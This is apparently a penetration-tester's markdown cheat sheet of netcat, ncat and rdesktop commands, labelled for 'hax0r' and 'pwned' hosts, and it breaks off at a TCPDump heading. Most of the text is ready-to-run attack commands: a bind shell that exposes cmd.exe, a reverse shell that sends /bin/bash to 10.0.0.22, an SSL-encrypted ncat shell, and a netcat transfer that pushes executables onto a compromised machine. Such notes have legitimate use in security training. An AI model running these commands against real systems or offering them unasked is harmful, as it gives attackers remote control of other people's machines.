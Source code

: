 **file transfer**

*on receiving end*

```bash
nc -nlvp 4444 > incoming.exe
```

*on sending end*

```bash
nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe
```

**shellz**

```bash
nc -nlvp 4444 -e cmd.exe
```

**reverse shellz**

*on hax0r host*

```bash
nc -nlvp 4444
```

*on pwned host*

```bash
nc -nv 10.0.0.22 4444 -e /bin/bash
```

## Rdesktop

mount windows-binaries folder to windows using rdesktop

```bash
rdesktop -r disk:share=/usr/share/windows-binaries -u offsec -p <password> 10.11.4.111 
```



## NCat

crypted shell only allowed to 10.0.0.4

*on pwned host*

```bash
ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl
```

*on hax0r host*

```bash
ncat -v 10.0.0.22 4444 --ssl
```

## TCPDump
